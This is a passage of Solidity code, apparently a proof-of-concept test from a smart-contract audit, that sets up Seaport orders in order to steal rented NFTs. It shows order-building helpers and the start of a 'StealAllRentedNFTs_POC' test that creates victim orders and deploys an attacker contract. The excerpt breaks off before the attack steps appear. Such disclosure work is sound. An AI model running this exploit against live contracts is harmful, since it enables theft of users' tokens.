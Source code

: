 ```solidity
        advancedOrders[1] = payeeAdvancedOrder;

        Fulfillment[] memory fulfillments = new Fulfillment[](2);
        fulfillments[0] = fulfillmentERC721;
        fulfillments[1] = fulfillmentERC20;

        seaport.matchAdvancedOrders(
            advancedOrders,
            new CriteriaResolver[](0),
            fulfillments,
            address(0)
        );
    }

    function _initializeNFT(ItemType itemType, address token, uint256 tokenId, uint256 amount) internal {
        payAdvancedOrder.parameters.offer[0].itemType = itemType;
        payAdvancedOrder.parameters.offer[0].token = token;
        payAdvancedOrder.parameters.offer[0].identifierOrCriteria = tokenId;
        payAdvancedOrder.parameters.offer[0].startAmount = amount;
        payAdvancedOrder.parameters.offer[0].endAmount = amount;

        payeeAdvancedOrder.parameters.consideration[0].itemType = itemType;
        payeeAdvancedOrder.parameters.consideration[0].token = token;
        payeeAdvancedOrder.parameters.consideration[0].identifierOrCriteria = tokenId;
        payeeAdvancedOrder.parameters.consideration[0].startAmount = amount;
        payeeAdvancedOrder.parameters.consideration[0].endAmount = amount;
        payeeAdvancedOrder.parameters.consideration[0].recipient = payable(safe);

        payOrder.parameters.offer[0].itemType = itemType;
        payOrder.parameters.offer[0].token = token;
        payOrder.parameters.offer[0].identifierOrCriteria = tokenId;
        payOrder.parameters.offer[0].startAmount = amount;
        payOrder.parameters.offer[0].endAmount = amount;

        payeeOrder.parameters.consideration[0].itemType = itemType;
        payeeOrder.parameters.consideration[0].token = token;
        payeeOrder.parameters.consideration[0].identifierOrCriteria = tokenId;
        payeeOrder.parameters.consideration[0].startAmount = amount;
        payeeOrder.parameters.consideration[0].endAmount = amount;
        payeeOrder.parameters.consideration[0].recipient = payable(safe);
    }
}

contract StealAllRentedNFTs_POC is BaseTest {

    function testStealAllRentedNFTs() public {
        // ------ Setting up previous state ------ //

        // create and fulfill orders that we will exploit
        (
            Order memory order, 
            OrderMetadata memory metadata, 
            RentalOrder[] memory victimRentalOrders
        ) = _createAndFulfillVictimOrders();

        // ------ Prerequisites ------ //

        // instantiate attackerContract
        AttackerContract attackerContract = new AttackerContract(
            address(conduit), // seaport conduit
            address(erc20s[0]), // token we will use for our rental orders
            seaport
```